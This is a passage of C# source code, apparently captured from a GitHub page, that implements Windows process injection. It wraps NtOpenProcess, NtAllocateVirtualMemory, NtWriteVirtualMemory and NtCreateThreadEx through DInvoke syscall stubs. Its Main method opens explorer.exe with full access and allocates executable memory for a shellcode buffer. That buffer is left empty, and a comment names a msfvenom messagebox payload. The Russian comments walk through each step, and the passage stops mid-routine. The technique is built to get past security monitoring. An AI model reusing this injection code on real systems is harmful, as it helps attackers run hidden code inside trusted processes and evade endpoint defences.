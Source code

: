 ```csharp
            return ntOpenProcess(ref ProcessHandle, DesiredAccess, ref ObjectAttributes, ref ClientId);
        }

        static DInvoke.Data.Native.NTSTATUS NtAllocateVirtualMemory(IntPtr ProcessHandle, ref IntPtr BaseAddress, IntPtr ZeroBits, ref IntPtr RegionSize, uint AllocationType, uint Protect)
        {
            IntPtr stub = DInvoke.DynamicInvoke.Generic.GetSyscallStub("NtAllocateVirtualMemory");
            Delegates.NtAllocateVirtualMemory ntAllocateVirtualMemory = (Delegates.NtAllocateVirtualMemory)Marshal.GetDelegateForFunctionPointer(stub, typeof(Delegates.NtAllocateVirtualMemory));

            return ntAllocateVirtualMemory(ProcessHandle, ref BaseAddress, ZeroBits, ref RegionSize, AllocationType, Protect);
        }

        static DInvoke.Data.Native.NTSTATUS NtWriteVirtualMemory(IntPtr ProcessHandle, IntPtr BaseAddress, IntPtr Buffer, uint BufferLength, ref uint BytesWritten)
        {
            IntPtr stub = DInvoke.DynamicInvoke.Generic.GetSyscallStub("NtWriteVirtualMemory");
            Delegates.NtWriteVirtualMemory ntWriteVirtualMemory = (Delegates.NtWriteVirtualMemory)Marshal.GetDelegateForFunctionPointer(stub, typeof(Delegates.NtWriteVirtualMemory));

            return ntWriteVirtualMemory(ProcessHandle, BaseAddress, Buffer, BufferLength, ref BytesWritten);
        }

        static DInvoke.Data.Native.NTSTATUS NtCreateThreadEx(ref IntPtr threadHandle, DInvoke.Data.Win32.WinNT.ACCESS_MASK desiredAccess, IntPtr objectAttributes, IntPtr processHandle, IntPtr startAddress, IntPtr parameter, bool createSuspended, int stackZeroBits, int sizeOfStack, int maximumStackSize, IntPtr attributeList)
        {
            IntPtr stub = DInvoke.DynamicInvoke.Generic.GetSyscallStub("NtCreateThreadEx");
            Delegates.NtCreateThreadEx ntCreateThreadEx = (Delegates.NtCreateThreadEx)Marshal.GetDelegateForFunctionPointer(stub, typeof(Delegates.NtCreateThreadEx));

            return ntCreateThreadEx(ref threadHandle, desiredAccess, objectAttributes, processHandle, startAddress, parameter, createSuspended, stackZeroBits, sizeOfStack, maximumStackSize, attributeList);
        }

        public static void Main(string[] args)
        {
            // msfvenom -p windows/x64/messagebox TITLE='MSF' TEXT='Hack the Planet!' EXITFUNC=thread -f csharp
            byte[] buf = new byte[] { };

            // получаем PID процесса explorer.exe
            int processId = Process.GetProcessesByName("explorer")[0].Id;

            // получаем хендл процесса по его PID
            IntPtr hProcess = IntPtr.Zero;
            Win32.OBJECT_ATTRIBUTES oa = new Win32.OBJECT_ATTRIBUTES();
            Win32.CLIENT_ID ci = new Win32.CLIENT_ID { UniqueProcess = (IntPtr)processId };
            _ = NtOpenProcess(ref hProcess, DInvoke.Data.Win32.Kernel32.ProcessAccessFlags.PROCESS_ALL_ACCESS, ref oa, ref ci);

            // выделяем область памяти buf.Length байт
            IntPtr baseAddress = IntPtr.Zero;
            IntPtr regionSize = (IntPtr)buf.Length;
            _ = NtAllocateVirtualMemory(hProcess, ref baseAddress, IntPtr.Zero, ref regionSize, DInvoke.Data.Win32.Kernel32.MEM_COMMIT | DInvoke.Data.Win32.Kernel32.MEM_RESERVE, DInvoke.Data.Win32.WinNT.PAGE_EXECUTE_READWRITE);

```

[//]: # (2022-03-29)